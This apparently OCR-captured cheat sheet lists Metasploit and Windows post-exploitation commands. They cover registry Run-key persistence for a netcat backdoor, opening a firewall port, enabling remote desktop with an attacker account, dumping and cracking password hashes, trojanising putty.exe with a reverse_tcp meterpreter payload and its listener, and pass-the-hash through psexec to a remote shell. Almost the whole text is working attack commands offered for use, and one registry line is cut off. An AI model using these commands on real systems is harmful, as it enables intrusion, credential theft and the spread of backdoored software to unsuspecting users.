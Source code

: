 ```text
meterpreter > reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows
meterpreter > reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
meterpreter > execute -f cmd -i
C:\Documents and Settings\Jim\My Documents > netsh firewall show opmode
C:\Documents and Settings\Jim\My Documents > netsh firewall add portopening TCP 455 "Service Firewall"
C:\Documents and Settings\Jim\My Documents > netsh firewall show portopening
root@kali:~# nc -v 172.16.104.128 455
```

Enabling Remote Desktop:

```text
meterpreter > run getgui -h
meterpreter > run getgui -u hacker -p s3cr3t
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
```

MSF JTR:

```text
msf auxiliary(handler) > use post/windows/gather/hashdump
msf post(hashdump) > set session 1
msf post(hashdump) > run
msf post(hashdump) > use auxiliary/analyze/jtr_crack_fast
msf auxiliary(jtr_crack_fast) > run
```

Backdoor an EXE \(putty\)

```text
root@kali:/var/www# wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
root@kali:/var/www# msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 R | msfencode -e x86/shikata_ga_nai -c 3 -t exe -x /var/www/putty.exe -o /var/www/puttyx.exe
```

Backdoor an EXE \(putty\) - setup reverse connection:

```text
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.101
msf exploit(handler) > set LPORT 443
msf exploit(handler) > exploit
meterpreter > getuid
```

MSF PtH:

```text
cd /opt/metasploit-4.11/
./app/msfconsole
msf > use exploit/windows/smb/psexec
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(psexec) > set RHOST 10.10.10.10
msf exploit(psexec) > set LHOST [YourLinuxIPaddr]
msf exploit(psexec) > set SMBUser monk
msf exploit(psexec) > set SMBPass [LANMAN]:[NT]
msf exploit(psexec) > exploit
meterpreter > getuid
meterpreter > getpid
meterpreter > ifconfig
meterpreter > shell
```

